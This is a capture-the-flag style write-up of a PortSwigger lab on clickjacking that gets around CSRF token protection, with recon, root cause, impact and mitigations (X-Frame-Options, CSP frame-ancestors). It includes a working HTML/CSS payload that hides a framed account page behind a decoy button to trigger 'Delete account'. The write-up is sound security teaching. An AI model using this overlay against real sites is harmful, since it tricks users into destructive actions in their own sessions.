


# Lab 01: Basic clickjacking with CSRF token protection

> **Topic**: Clickjacking
> **Lab Number**: 01
> **Platform**: PortSwigger Web Security Academy

## Category
Clickjacking — UI Redressing with CSRF Protection Bypass

## Vulnerability Summary
The application is vulnerable to clickjacking because it does not implement any frame protection mechanisms, such as the `X-Frame-Options` header or a `Content-Security-Policy` (CSP) `frame-ancestors` directive. While the application uses CSRF tokens to protect state-changing actions (like updating an email or deleting an account), clickjacking bypasses these protections. This is because the action is performed by the user within their own legitimate session inside the iframe, meaning the browser automatically includes the valid CSRF token in the request.

## Attack Methodology

### Step 1: Recon
I logged in to the application and navigated to the "My Account" page. I observed that the page contains an "Update email" form and a "Delete account" button. I verified that the page can be loaded inside an iframe by creating a simple test HTML file:

```html
<iframe src="https://0a0300fc04a2936a816641e700a6003c.web-security-academy.net/my-account"></iframe>
```

The page loaded successfully, indicating no frame protection is in place.

### Step 2: Crafting the Exploit
I used the exploit server to host an HTML page that overlays a decoy "Test me" button over the "Delete account" button on the target page. I adjusted the positioning using CSS `top` and `left` properties and set the iframe's `opacity` to a low value (e.g., `0.0001`) to make it invisible to the user while still being clickable.

**Exploit Payload:**
```html
<style>
    iframe {
        position: relative;
        width: 700px;
        height: 700px;
        opacity: 0.0001; /* Invisible to the user */
        z-index: 2;
    }
    div {
        position: absolute;
        top: 495px; /* Positioned exactly over the 'Delete account' button */
        left: 45px;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="https://0a0300fc04a2936a816641e700a6003c.web-security-academy.net/my-account"></iframe>
```


*The exploit server showing the decoy "Test me" button positioned over the framed "Delete account" button.*

### Step 3: Execution
I delivered the exploit to the victim. When the victim clicks the "Test me" button, they are actually clicking the hidden "Delete account" button in their own authenticated session.


*Lab successfully solved after the victim's account was deleted via clickjacking.*

## Technical Root Cause
The vulnerability stems from the absence of defense-in-depth headers that control how the application can be framed. Even though the application correctly implements CSRF tokens, it assumes that any request with a valid token must be intentional. Clickjacking violates this assumption by tricking the user into providing the intentionality.

## Impact
- **Unauthorized Account Deletion**: An attacker can trick a user into deleting their own account.
- **Unauthorized Data Modification**: Any state-changing action reachable via a single click (or a sequence of clicks) can be targeted.
- **Bypass of Standard CSRF Protections**: Demonstrates that CSRF tokens alone are insufficient to protect against UI redressing attacks.

## Proof of Concept
1. Identify a state-changing action on a page that can be framed.
2. Create an exploit page with an iframe pointing to the target page.
3. Use CSS to overlay a decoy element over the target button.
4. Set the iframe to be invisible.
5. Trigger the action by enticing a user to click the decoy element.

## Key Takeaways
1. **CSRF Tokens do not protect against Clickjacking**: UI redressing occurs in the user's own session, making standard CSRF tokens moot.
2. **Frame Protection is Essential**: Always implement `X-Frame-Options: SAMEORIGIN` or CSP `frame-ancestors 'self'` unless framing is specifically required.
3. **Check for "One-Click" Actions**: Actions that do not require a confirmation dialog are high-value targets for clickjacking.

## Mitigation
1. **X-Frame-Options Header**: Set the `X-Frame-Options` header to `DENY` or `SAMEORIGIN` to prevent unauthorized framing.
2. **Content Security Policy (CSP)**: Use the `frame-ancestors` directive to restrict which domains can frame the application.
3. **Confirmation Dialogs**: For sensitive actions, implement a confirmation dialog that is harder to perfectly align in a clickjacking attack.
4. **Frame Busting Scripts**: While less reliable than headers, legacy applications can use JavaScript to ensure they are not being framed.

## References
- [PortSwigger Clickjacking Lab - Basic clickjacking](https://portswigger.net/web-security/clickjacking/lab-basic-clickjacking-with-csrf-token-protection)
- [OWASP Clickjacking Defense Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Clickjacking_Defense_Cheat_Sheet.html)

---

*Lab completed on: 2026-05-16*
*Writeup by vibhxr*
